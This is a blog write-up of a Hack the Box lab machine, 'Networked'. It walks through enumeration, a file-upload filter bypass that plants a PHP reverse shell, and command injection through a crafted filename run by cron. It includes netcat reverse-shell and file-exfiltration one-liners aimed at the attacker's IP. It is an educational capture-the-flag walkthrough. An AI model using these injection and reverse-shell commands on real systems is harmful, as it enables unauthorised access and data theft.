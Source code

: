 +++
author = "Nick"
categories = ["basic", "cron", "CTF", "enumeration", "Linux", "netcat", "reverse shell", "web services", "PHP", "bash"]
date = 2019-11-16T16:47:06Z
description = ""
draft = false
thumbnail = "/images/2019/08/info-5.png"
slug = "hack-the-box-networked"
summary = "Today we are going to go though the easy box, Networked. Lets get into it!"
tags = ["basic", "cron", "CTF", "enumeration", "Linux", "netcat", "reverse shell", "web services", "PHP", "bash"]
title = "Hack the Box - Networked"

+++


Today we are going to go though the easy box, Networked. This box was pretty unstable since it has just released a few days ago. Anyway, lets get into it!

You guessed it, we are starting it off with our standard nmap scan: ```nmap -sC -sV -oA networked 10.10.10.146```. Our results come back pretty basic. A denied port 443, ssh and http.

![](/images/2019/08/image-114.png)

We head over to see what website the box is serving and we see a standard web page.

![](/images/2019/08/image-92.png)

Source doesn't have much of anything aside from a hint of an uploader later on.

![](/images/2019/08/image-93.png)

So those pages could be active but not yet added to this page listing. We'll continue our enumeration with gobuster to see if any of the common results come back.

![](/images/2019/08/image-94.png)

We do indeed see some commonly named items. backup and uploads are good starts. We head over to backup and we find a backup.tar.

![](/images/2019/08/image-95.png)

We download the backup.tar and unzip it

![](/images/2019/08/image-96.png)

These .php files are all presumably live on our current host. So when we try to head over to photos.php, we do indeed have some content.

![](/images/2019/08/image-97.png)

Now all we have to do is check the source of these pages to see what is happening. Essentially upload.php is only letting us upload images types, change the underscores for periods and setting permissions.

![](/images/2019/08/image-99.png)

The lib.php has some interesting code for validating the file type. It also has a small snippet for validating a filename for an 'attack'.

![](/images/2019/08/image-100.png)

So our goal here is to simply upload a reverse shell and have it execute. The first thing we'll do is copy our [standard reverse php shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) file into our working directory. We'll then make a copy under the name 10_10_15_222.php.png since we know that the page with audit the filename and type. Now we'll modify the script accordingly.

![](/images/2019/08/image-101.png)

We also know that the lib.php is checking our file type. We can easily bypass this by adding GIF89a; at the header of our reverse shell. You can see other forms of file upload bypassing [here](https://github.com/xapax/security/blob/master/bypass_image_upload.md).

![](/images/2019/08/image-102.png)

Next we start up a Netcat session listing on our defined port. Then upload the file to the server.

![](/images/2019/08/image-103.png)

Next thing we know...

![](/images/2019/08/image-98.png)

We have a shell. Poking around a bit here doesn't have much. We see there is only 1 user, guly, when we look at /home. So lets see if we can LinEnum the machine. Head over to /tmp and download our file. In this case, wget is not on the machine, so we use ```curl -o lin.sh http://10.10.15.227/LinEnum.sh``` this time to get our file.

![](/images/2019/08/image-104.png)

We don't see much. We do see a file called check_attack.php in Guly's home directory. As we look at the file, we see what looks to be an easy command injection on line 30.

![](/images/2019/08/image-106.png)

We also have crontab.guly as well.

![](/images/2019/08/image-107.png)

So it seems that every 3 minutes, php is called to run check_attack.php. With these two combined we can create a netcat connection back to our machine!

We will head over to our upload directory. Here we will create a file. ```touch "; nc 10.10.15.227 9999 -c bash```. This will create a file that is called by the check_attack.php file. In this case, it will concatinate the ```rm -f``` command and execute our command, in this case, nc to our machine.

![](/images/2019/08/image-105.png)

Now that we have a shell as user, lets snag the flag! We upgrade our shell and start enumeration. We see that guly can run the following as root.

![](/images/2019/08/image-108.png)

When we look at the contents of this file, we see the following:

![](/images/2019/08/image-109.png)

So now that we know we can command inject in this script we can use it to get the root flag. Trying to cat /root/root.txt won't work out for us because of our regex expression list doesn't support a period. Now we could escape around it but it's actually easier to make a small shell script and call it.

![](/images/2019/08/image-111.png)

So here we echo our command into a file by using ```echo "cat /root/root.txt | nc 10.10.15.227 6969" > file```. The reason we are piping it to netcat is because I want the file on my attacking machine. So on our machine we start netcat listening on port 6969: ```nc -lvnp 6969 > root.txt``` then export it to root.txt.

Now all we do is call the same shell script as before but point it to our newly created script file:

![](/images/2019/08/image-113.png)

And we see our Netcat light up and receive the file.

![](/images/2019/08/image-112.png)

We have the flag!

Now we can use this same approach to do plenty of other things, this was just the fastest way to the flag. We could make a script to add ourselves to the sudoers file, copy ssh keys, create ssh keys or anything else because we are executing this command as root.

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

